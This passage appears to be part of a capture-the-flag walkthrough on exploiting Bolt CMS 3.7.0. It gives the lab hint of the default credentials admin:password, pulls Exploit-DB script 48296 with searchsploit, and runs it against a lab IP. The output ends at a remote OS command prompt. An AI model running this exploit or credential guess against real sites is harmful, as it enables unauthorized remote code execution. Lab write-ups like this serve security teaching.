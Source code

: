 ```bash
```

<p>4.2. As the exploit is authenticated, you will also need a username and password. Knowing the URI for the login-portal is also critical for the exploit to work. Find the login-portal and try login in. Hint : admin:password <br>
<code>22,80</code></p>


```bash
:~/EritSecurusI# searchsploit -m php/webapps/48296.py
  Exploit: Bolt CMS 3.7.0 - Authenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48296
     Path: /opt/exploitdb/exploits/php/webapps/48296.py
    Codes: N/A
 Verified: False
File Type: Python script, UTF-8 Unicode text executable
Copied to: /root/EritSecurusI/48296.py
```

```bash
:~/EritSecurusI# python3 48296.py http://10.201.19.213 admin password

...
Pre Auth rce with low credintanl
#Zero-way By @r3m0t3nu11 speical thanks to @dracula @Mr_Hex
[+] Retrieving CSRF token to submit the login form
48296.py:56: DeprecationWarning: Call to deprecated method findAll. (Replaced by find_all) -- Deprecated since version 4.0.0.
  token = soup.findAll('input')[2].get("value")
[+] Login token is : jojDO4pay_iso8e7lv88842nwYn8PjrCk4GQP8KYJJA
48296.py:72: DeprecationWarning: Call to deprecated method findAll. (Replaced by find_all) -- Deprecated since version 4.0.0.
  token0 = soup0.findAll('input')[6].get("value")
48296.py:90: DeprecationWarning: Call to deprecated method findAll. (Replaced by find_all) -- Deprecated since version 4.0.0.
  csrf = soup1.findAll('div')[12].get("data-bolt_csrf_token")
[+] SESSION INJECTION 
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[+] FOUND  : test5
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[+] FOUND  : test15
[-] Not found.
Enter OS command , for exit 'quit' : 
```
